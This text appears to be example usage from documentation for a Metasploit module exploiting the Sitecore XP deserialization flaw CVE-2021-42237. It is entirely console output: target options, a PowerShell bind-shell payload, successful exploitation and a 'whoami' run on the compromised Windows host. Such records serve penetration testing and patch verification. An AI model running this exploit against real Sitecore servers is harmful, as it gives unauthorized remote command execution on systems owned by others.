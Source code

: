 ```
[*] 172.20.211.198:80 - The target appears to be vulnerable. Response.ashx is accessible and appears to be deserializing data!
msf exploit(windows/http/sitecore_xp_cve_2021_42237) > set LPORT 8342
LPORT => 8342
msf exploit(windows/http/sitecore_xp_cve_2021_42237) > set TARGET 0
TARGET => 0
msf exploit(windows/http/sitecore_xp_cve_2021_42237) > show options

Module options (exploit/windows/http/sitecore_xp_cve_2021_42237):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:hos
                                         t:port][...]
   RHOSTS     172.20.211.198   yes       The target host(s), see https://github.com/rapid
                                         7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on
                                         . This must be an address on the local machine o
                                         r 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is ran
                                         domly generated)
   TARGETURI  /                yes       Base path of Sitecore
   URIPATH                     no        The URI to use for this exploit (default is rand
                                         om)
   VHOST      NewInstance1     no        HTTP server virtual host


Payload options (cmd/windows/powershell_bind_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   LOAD_MODULES                   no        A list of powershell modules separated by a c
                                            omma to download over the web
   LPORT         8342             yes       The listen port
   RHOST         172.20.211.198   no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Windows Command


msf exploit(windows/http/sitecore_xp_cve_2021_42237) > exploit

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Response.ashx is accessible and appears to be deserializing data!
[*] Executing command payload
[*] Started bind TCP handler against 172.20.211.198:8342
[*] Powershell session session 2 opened (172.20.223.94:37301 -> 172.20.211.198:8342 ) at 2021-11-10 15:37:10 -0600

Windows PowerShell running as user WIN-86UKQGF31O1$ on WIN-86UKQGF31O1
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>PS C:\windows\system32\inetsrv>
PS C:\windows\system32\inetsrv> whoami
nt authority\network service
```